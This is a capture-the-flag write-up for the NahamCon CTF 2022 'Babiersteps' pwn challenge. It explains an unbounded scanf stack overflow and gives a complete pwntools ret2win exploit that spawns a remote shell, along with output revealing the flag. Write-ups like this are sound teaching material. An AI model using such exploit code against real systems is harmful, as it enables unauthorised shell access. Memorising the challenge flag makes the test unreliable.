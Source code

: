 # NahamCon CTF 2022

## Babiersteps 

> Baby steps! One has to crawl before they can run. 
>
> Author: @M_alpha#3534
>
> [`babiersteps`](babiersteps)

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _ret2win_


## Summary

Basic `scanf` _ret2win_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE + No canary = easy ROP.


### Ghidra Decompile

```c
undefined8 main(void)
{
  undefined local_78 [112];
  
  puts("Everyone has heard of gets, but have you heard of scanf?");
  __isoc99_scanf(&DAT_00402049,local_78);
  return 0;
}

void win(void)
{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

`&DAT_00402049` is actually `%s`, IOW, `scanf` is unconstrained enabling a buffer overflow that can smash the stack.  _But what to smash it with?_  Well, the included `win` function.

`local_78` is `0x78` bytes from the base of the stack frame (right above the return address `main` will _return_ to on `return`).  To _return to win_, simply write out `0x78` bytes of garbage followed by the location of `win`.

That's it.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./babiersteps', checksec=False)

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 30823)
else:
    p = process(binary.path)

payload  = b''
payload += 0x78 * b'A'
payload += p64(binary.sym.win)

p.sendlineafter(b'scanf?\n',payload)
p.interactive()
```

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to challenge.nahamcon.com on port 30823: Done
[*] Switching to interactive mode
$ cat flag.txt
flag{4dc0a785da36bfcf0e597917b9144fd6}
```